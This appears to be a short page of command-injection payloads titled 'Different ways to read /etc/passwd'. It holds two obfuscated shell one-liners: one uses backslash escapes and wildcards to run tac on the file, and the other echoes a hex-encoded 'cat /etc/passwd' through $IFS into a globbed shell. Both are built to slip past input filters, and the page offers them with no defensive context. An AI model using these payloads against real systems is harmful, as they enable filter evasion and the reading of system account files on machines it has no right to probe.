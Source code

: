 
Different ways to read /etc/passwd

```
t\a\c$@</*?c/*?*?*w\d
```

```
e\c\h\o$IFS-e$IFS'\x63\x61\x74\x20\x2F\x65\x74\x63\x2F\x70\x61\x73\x73\x77\x64'|/???/\b**\h
```
